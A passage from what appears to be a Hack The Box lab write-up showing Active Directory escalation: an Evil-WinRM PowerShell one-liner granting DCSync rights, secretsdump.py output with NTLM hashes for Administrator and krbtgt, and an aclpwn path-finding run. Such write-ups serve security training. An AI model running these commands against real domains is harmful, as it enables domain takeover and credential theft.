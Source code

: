     
    
    *Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
    

And I can see the user in the new group:

    
    
    *Evil-WinRM* PS C:\> net group 'Exchange Windows Permissions'
    Group name     Exchange Windows Permissions
    Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.
    
    Members
    -------------------------------------------------------------------------------
    svc-alfresco             
    The command completed successfully.
    

I can also run `secretsdump.py` and get hashes:

    
    
    root@kali# secretsdump.py svc-alfresco:s3rvice@10.10.10.161
    Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation
    
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    ...[snip]...
    [*] Cleaning up... 
    

### Alternative Tool: Aclpwn

There’s a tool that will automate this exploitation,
[aclpwn](https://github.com/fox-it/aclpwn.py). When I run it, I pass it the
user I want to start with, and what I want to get (domain access), and it
looks for paths, asks me which path to use, and then run it:

    
    
    root@kali# aclpwn -f svc-alfresco -t htb.local --domain htb.local --server 10.10.10.161
    Please supply the password or LM:NTLM hashes of the account you are escalating from: 
    [!] Unsupported operation: GenericAll on EXCH01.HTB.LOCAL (Computer)
    [-] Invalid path, skipping
    [+] Path found!
    Path [0]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE TRUSTED SUBSYSTEM@HTB.LOCAL)-[MemberOf]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
    [!] Unsupported operation: GetChanges on HTB.LOCAL (Domain)
    [-] Invalid path, skipping
    [+] Path found!
    Path [1]: (SVC-ALFRESCO@HTB.LOCAL)-[MemberOf]->(SERVICE ACCOUNTS@HTB.LOCAL)-[MemberOf]->(PRIVILEGED IT ACCOUNTS@HTB.LOCAL)-[MemberOf]->(ACCOUNT OPERATORS@HTB.LOCAL)-[GenericAll]->(EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL)-[WriteDacl]->(HTB.LOCAL)
    Please choose a path [0-1] 1
    [-] Memberof -> continue
    [-] Memberof -> continue
